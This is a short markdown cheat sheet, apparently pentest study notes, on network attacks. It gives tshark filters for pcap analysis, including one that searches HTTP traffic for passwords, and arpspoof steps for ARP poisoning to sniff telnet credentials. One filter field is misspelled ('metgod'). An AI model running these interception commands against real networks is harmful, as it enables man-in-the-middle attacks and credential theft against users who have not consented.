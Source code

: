 # Network Based Attacks

### Tshark: command line of wireshark
- run statistics on a pcap: `tshark -r pcapfile.pcap -z io,phs -q`
  
  **Filtering basics**
  - specific traffic, source address and destination`tshark -r pcapfile.pcap -Y 'ip.src==10.10.x.x && ip.dst==10.10.x.x'`
  - GET request: `tshark -r pcapfile.pcap -Y 'http.request.metgod==GET' | more`
  - specific fields: `tshark -r pcapfile.pcap -Y 'http.request.metgod==GET' -Tfields -e frame.time -e ip.src -e http.request.full_uri | more`
  - HTTP contains password: `tshark -r pcapfile.pcap -Y 'http contains password'`
  
  **ARP Poisoning**
  - if you have found telnet: port 23
  - open wireshark
  - `echo 1 > /proc/sys/net/ipv4/ip_forward`
  - `arpspoof -i eth1 -t telnet_ip -r other_ip`
  - search for `telnet` in wireshark